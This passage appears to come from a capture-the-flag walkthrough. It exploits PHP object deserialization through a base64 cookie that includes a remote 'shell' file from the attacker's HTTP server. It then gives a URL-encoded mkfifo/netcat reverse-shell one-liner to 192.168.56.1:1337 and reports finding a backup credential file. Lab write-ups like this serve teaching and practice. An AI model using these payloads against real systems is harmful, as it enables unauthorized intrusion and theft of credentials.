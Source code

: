 Using `python -m http.server` I started the server now we can include that in our code.

```
Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjU6ImFkbWluIjtzOjk6IgBVc2VyAHdlbCI7TzozOiJMb2ciOjE6e3M6MTM6IgBMb2cAdHlwZV9sb2ciO3M6MzA6Imh0dHA6Ly8xOTIuMTY4LjU2LjE6ODAwMC9zaGVsbCI7fX0=
```

I used this cookie and I was able to execute command.

![](images/serial/rce.png)

Now we can simply get a shell. I used the OpenBSD netcat format which was URL encoded.

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.56.1%201337%20%3E%2Ftmp%2Ff
```

![](images/serial/shell.png)

I started looking around and found `credential.txt.bak` in the `/` dir which had  credential for `sk4` user.
